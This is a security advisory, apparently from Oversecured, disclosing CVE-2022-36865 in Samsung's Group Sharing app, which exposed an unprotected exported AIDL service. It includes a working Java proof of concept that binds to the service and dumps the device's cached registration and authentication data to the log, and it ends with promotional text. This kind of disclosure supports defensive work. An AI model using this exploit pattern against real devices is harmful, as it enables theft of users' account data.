

# Details

<table>
    <tr>
        <td>Name</td>
        <td>Group Sharing</td>
    </tr>
    <tr>
        <td>Package name</td>
        <td><code>com.samsung.android.mobileservice</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.03.27</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2022.09.07</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>Moderate</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td><a href="https://nvd.nist.gov/vuln/detail/CVE-2022-36865">CVE-2022-36865</a> (SVE-2022-0764)</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$970</td>
    </tr>
</table>

# Description

Oversecured found an exported service with exposed AIDL interfaces:


The entire functionality of this service was not protected by any security checks, allowing an attacker to perform any action that is available in it. We made a PoC that simply dumps the current registration data from the `getDeviceAuthInfoCached()` method. However, the attacker could also perform any other actions, such as group management, invitations, shared files, and so on.

**Proof of Concept**

```java
private ServiceConnection mServiceConnection = new ServiceConnection() {
    public void onServiceConnected(ComponentName cName, IBinder service) {
        processBinder(service);
    }

    public void onServiceDisconnected(ComponentName cName) {
    }
};

protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);

    Intent i = new Intent();
    i.setClassName("com.samsung.android.mobileservice", "com.samsung.android.mobileservice.social.MobileServiceSocialService");
    bindService(i, mServiceConnection, BIND_AUTO_CREATE);
}

private void processBinder(IBinder binder) {
    try {
        Parcel parcel = Parcel.obtain();
        parcel.writeInterfaceToken("com.samsung.android.sdk.mobileservice.social.IMobileServiceSocial");

        Parcel reply = Parcel.obtain();

        binder.transact(107, parcel, reply, 0);
        reply.readException();

        if (reply.readBoolean()) {
            Bundle replyBundle = new Bundle();
            replyBundle.readFromParcel(reply);
            DumpUtils.dump(replyBundle, getClassLoader());
        } else {
            Log.d("evil", "null");
        }
    } catch (Throwable th) {
        throw new RuntimeException(th);
    }
}
```

The implementation of the `DumpUtils.dump()` method can be found in the source code. We use the functionality of the Gson library to turn objects of any class into a string and then dump it to the log.

## Conclusion

Mobile app security is more critical than ever in today's digital landscape. As we have shown through our research, even the most reputable brands are not immune to the threat of cyberattacks. 

At Oversecured, we are committed to help our clients stay ahead of the curve with our industry-leading mobile app vulnerability scanning technology. With our comprehensive approach to mobile app security, you can trust that your brand and your users are protected from data breaches and other security threats.

Don't wait until it's too late. [Get a free consultation](https://oversecured.com/contact-us?utm_source=github&utm_medium=article&utm_campaign=samsung2022) and find out how we can help secure your mobile apps. Together, we can build a safer digital world.